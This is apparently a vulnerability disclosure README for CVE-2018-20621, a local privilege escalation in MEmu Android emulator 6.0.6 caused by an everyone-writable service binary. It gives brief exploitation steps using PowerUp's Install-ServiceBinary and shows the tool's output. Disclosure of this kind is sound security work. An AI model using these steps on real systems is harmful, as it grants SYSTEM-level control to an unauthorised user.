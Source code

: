 # CVE-2018-20621: MEmu Android Emulator Local Privilege Escalation

<!---
Remember to end each line under the "Information" header with 2 space characters ("  ") to tell Markdown to break the line.
--->
## Information
**Description:** The MemuService.exe service binary is vulnerable to local privilege escalation.    
**Versions Affected:** 6.0.6  
**Researcher:** David Yesland (https://twitter.com/daveysec @daveysec)  
**Disclosure Link:** NA  
**NIST CVE Link:** https://nvd.nist.gov/vuln/detail/CVE-2018-20621  

## Proof-of-Concept Exploit
### Description
The MemuService.exe service binary is vulnerable to local privilege escalation through binary planting due to insecure permissions set at install time. This allows code to be run as NT AUTHORITY/SYSTEM.


### Usage/Exploitation
Rename `C:\Program Files\Microvirt\MEmu\MemuService.exe` to `MemuService.exe.old`. Then using PowerShellEmpire PowerUp run `Install-ServiceBinary -Name 'MEmuSVC'`. Reboot.  

### Detail
```
ServiceName                     : MEmuSVC
Path                            : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFile                  : C:\Program Files\Microvirt\MEmu\MemuService.exe
ModifiableFilePermissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
ModifiableFileIdentityReference : Everyone
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'MEmuSVC'
CanRestart                      : False
```
